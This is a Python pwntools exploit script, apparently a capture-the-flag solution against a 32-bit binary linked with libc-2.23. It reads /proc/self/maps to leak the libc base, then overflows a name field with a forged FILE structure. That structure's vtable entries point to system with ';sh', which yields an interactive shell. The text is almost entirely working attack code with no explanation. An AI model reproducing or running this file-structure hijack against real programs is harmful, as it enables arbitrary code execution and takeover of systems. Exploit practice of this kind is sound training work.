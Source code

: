 ```python
    for key in a.libs():
        if "libc-2.23.so" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b *0x08048A62
    '''
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("Your choice :",str(idx))
def _open(name):
    menu(1)
    a.sendlineafter("What do you want to see :",name)
    return 

def read():
    menu(2)
    return 
    
def write():
    menu(3)
    return 
    
def close():
    menu(4)
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33
_open("/proc/self/maps")
read()
write()
for i in range(4):
    a.recvline()

libc_base = int(a.recv(8),16) + 0x1000
fuck(libc_base)
close()

#debug()
_open("/proc/self/maps")
fake_IO_file = 0x0804b300
payload = "A" * 0X20 + p32(fake_IO_file) + '\x00' * (0x80 - 4)
#fake start
payload += (p32(0xffffdfff) + ";sh\x00").ljust(0x94,'\x00')
payload += p32(fake_IO_file + 0x98)
payload += p32(libc_base + libc.sym["system"]) * 21
menu(5)
a.sendlineafter("Leave your name :",payload)


a.interactive()

```
